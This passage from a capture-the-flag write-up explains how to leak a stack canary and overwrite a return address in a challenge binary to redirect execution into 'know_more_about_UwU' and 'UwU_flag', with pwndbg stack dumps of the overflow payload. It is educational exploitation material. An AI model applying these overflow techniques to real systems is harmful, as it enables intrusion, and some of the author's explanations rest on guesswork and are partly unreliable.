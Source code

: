```c
	{
		know_more_about_UwU();
	}
```

To get in the second now, we overflow the return address of `UwU_main` from originally going back to `main` to `know_more_about_UwU` the content leaking function.  
To be able to overflow in `UwU_main`, we first need to get pass the canary protection in `UwU_main`. Therefore the flow would be something like:
```
Calculate addresses --> know_more_about_UwU --> 
Leak canary value in UwU_main --> Overflow and overwrite return address --> know_more_about_UwU (again) --> Leak passcode --> ...
```

## Returning to and from `know_more_about_UwU`
Before we dive into the intriguing mechansim of returning from a maliciously, mistakenly returned function, let's revise some of the basics 
### Basics of normal function return 
When `know_more_about_UwU` or any other function was called normally, instruction after the `call` instruction in previous function would be pushed during the call and ended up exactly above `saved old rbp` in the stack frame
```
04:0020│ rbp 0x7fffffffdb50 —▸ 0x7fffffffdbe0 —▸ 0x7fffffffdbf0 ◂— 1
05:0028│+008 0x7fffffffdb58 —▸ 0x555555400ef4 (UwU_main+205) ◂— jmp UwU_main+219
```
In above example snippet right before `know_more_about_UwU` returns to `UwU_main`, top line is `saved old rbp` intended to restore stack frame of the previous function. {{Which would be restored during `leave` instruction before return}}  
Second line is then the return address, which be very quickly be at top of the stack after `saved old rbp` is popped. It would then be popped in `rip` with `ret` instruction 
## What if we return from a function that we returned to 
The answer is: it simply return to the address of right above the return address to the function i.e. `rbp+0x10` (`rbp+0x8` holding the return address to the function we maliciously want to get into)
I did not know at all, what is the answer of the title question
Below is what solely based on my observation and testing:  

The following is the stack right before executing and `leave` and `ret` in `UwU_main`
```
pwndbg> stack 25
00:0000│ rsp 0x7fff6d7bb220 ◂— 0x31 /* '1' */
01:0008│-078 0x7fff6d7bb228 —▸ 0x7fff6d7bb240 ◂— 'UwUUwUAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
02:0010│ rdi 0x7fff6d7bb230 ◂— 0x557755 /* 'UwU' */
03:0018│-068 0x7fff6d7bb238 ◂— 0
04:0020│-060 0x7fff6d7bb240 ◂— 'UwUUwUAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
05:0028│-058 0x7fff6d7bb248 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
... ↓        9 skipped
0f:0078│-008 0x7fff6d7bb298 ◂— 0xd456e33494259c00
10:0080│ rbp 0x7fff6d7bb2a0 ◂— 0x4141414141414141 ('AAAAAAAA')
11:0088│+008 0x7fff6d7bb2a8 —▸ 0x55c0f7e00d97 (know_more_about_UwU) ◂— push rbp
12:0090│+010 0x7fff6d7bb2b0 —▸ 0x55c0f7e00c60 (UwU_flag) ◂— push rbp
13:0098│+018 0x7fff6d7bb2b8 ◂— 0x3131313131313131 ('11111111')
14:00a0│+020 0x7fff6d7bb2c0 ◂— 0x3232323232323232 ('22222222')
15:00a8│+028 0x7fff6d7bb2c8 ◂— 0xdeadbeef
16:00b0│+030 0x7fff6d7bb2d0 ◂— 0x3333333333333333 ('33333333')
17:00b8│+038 0x7fff6d7bb2d8 ◂— 0x3434343434343434 ('44444444')
18:00c0│+040 0x7fff6d7bb2e0 ◂— 0xbeefdead
```
